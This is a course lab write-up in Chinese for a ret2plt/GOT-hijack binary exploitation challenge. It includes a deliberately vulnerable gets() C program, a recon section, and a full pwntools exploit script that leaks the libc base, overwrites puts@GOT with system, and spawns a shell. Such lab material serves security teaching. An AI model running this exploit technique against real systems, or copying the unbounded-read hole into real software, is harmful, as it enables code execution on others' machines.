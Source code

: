 # Simple PWN 0x34 (2023 Lab - ret2plt)
## Background
Got Hijack / BoF
## Source code
```cpp
//gcc -no-pie -fno-stack-protector -z norelro ret2plt.c -o ret2plt
#include <stdio.h>
#include <stdlib.h>

int main(){
	char buf[20];
	setvbuf(stdout,0,2,0);
	printf("Try your best :");
	gets(buf);
	puts("boom !");	
}
```
## Recon
1. checksec + file
    ```bash
    $ checksec chal
    [*] '/mnt/d/NTU/Second Year/Computer Security/PWN/Lab2/lab_ret2plt/share/chal'
        Arch:     amd64-64-little
        RELRO:    No RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    $ file chal
    chal: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f7ed984819a3908eff455bfcf87716d0fb298fac, for GNU/Linux 3.2.0, not stripped
    ```
    首先知道這隻binary是動態link library，所以可想而知，rop gadget一定少的可憐，所以我們不太能夠直接像上一題一樣暴力開一個shell出來，程式也沒有幫我們開，讓我們可以直接跳過去
2. 還是有很明顯的BOF的漏洞，此時就可以嘗試類似got hijack的方式打看看
流程:
1. 首先我們要知道libc base address才能夠利用扣掉offset的方式跳到system的地方，但是程式中並沒有能夠直接leak base address給我們的東西，因此我們可以自己想辦法leak: ==ret2plt==
    ```
    pop rdi ret
    puts got address
    puts plt
    ```
    這三行的意思是把puts的got address，透過puts印出來給我們 -> puts(put自己的got address)
2. 有了puts的got address之後，就可以扣掉puts在libc的offset，就可以知道base address，然後我們可以知道system的確切address
    ```python
    # leak puts got address to calculate libc base address
    puts_addr = u64(r.recv(6).ljust(8, b'\x00'))
    libc_base = puts_addr - libc.symbols['puts']
    libc.address = libc_base
    system_addr = libc.symbols['system']
    ```
3. 現在的問題有兩個，一個是我們要怎麼把==/bin/sh==送進去，因為如果直接看binary的gadget沒有`/bin/sh`或是`/sh`的string，不過我們可以直接用同樣的方法，把字串送進去
    ```python
    # fetch user input -> /bin/sh\x00
    pop_rdi_ret
    bss_addr
    gets_plt,
    ```
    此時他就會像使用者要輸入，並把我們的輸入丟到bss address
4. 另外一個問題就是我們要怎麼呼叫==system==，因為這個binary是動態的，代表一開始沒有link到system的話就不能直接呼叫，因此我們可以利用同樣的方法達到==got hijacking==
    ```python
    # fetch user input -> system address
    pop_rdi_ret
    puts_got
    gets_plt
    ```
    此時我們可以輸入system的address，經過這三行後我們就成功把puts got address換成system got address
5. 所有工具都準備好了，接下來只要呼叫puts就可以了，實際上就是呼叫system
    ```python
    # system('/bin/sh\x00')
    pop_rdi_ret
    bss_addr
    puts_plt
    ```
## Exploit - Ret2Plt(leak base address) + Got Hijack(call system)
```python
from pwn import *

r = process('./chal')
# r = remote('10.113.184.121', 10053)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.arch = 'amd64'

pop_rdi_ret = 0x0000000000401263
puts_got = 0x403368
puts_plt = 0x401070
gets_got = 0x403378
gets_plt = 0x401090
bss_addr = 0x403f00
payload = flat(
    # leak puts got address to calculate libc base address
    pop_rdi_ret,    puts_got,
    puts_plt,

    # fetch user input -> /bin/sh\x00
    pop_rdi_ret,    bss_addr,
    gets_plt,

    # fetch user input -> system address
    pop_rdi_ret,    puts_got,
    gets_plt,

    # system('/bin/sh\x00')
    pop_rdi_ret,    bss_addr,
    puts_plt
)
raw_input()
r.sendlineafter(b'Try your best :', b'a' * 0x28 + payload)
print(r.recvline())

puts_addr = u64(r.recv(6).ljust(8, b'\x00'))
log.info(f"puts address = {hex(puts_addr)}")

libc_base = puts_addr - libc.symbols['puts']
libc.address = libc_base
system_addr = libc.symbols['system']
log.info(f'system address = {hex(system_addr)}')
r.sendline(b'/bin/sh\x00')
raw_input()
r.sendline(p64(libc.symbols['system']))

r.interactive()
```